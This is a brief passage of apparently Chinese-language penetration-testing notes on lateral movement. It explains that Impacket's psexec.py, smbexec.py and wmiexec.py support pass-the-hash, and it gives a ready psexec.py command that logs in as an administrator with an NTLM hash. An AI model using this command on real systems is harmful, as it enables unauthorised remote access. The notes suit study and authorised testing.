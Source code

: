 ![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%209.png)

### Impacket

`Impacket`项目中具有远程命令执行功能的几个脚本基本上都可以进行`PTH`攻击，常见的有`psexec.py`、`smbexec.py`和`wmiexec.py`。

```bash
# psexec.py
python3 psexec.py -hashes :96b26b0744352a9d91516132c3fe485d hack/administrator@10.10.10.137
```
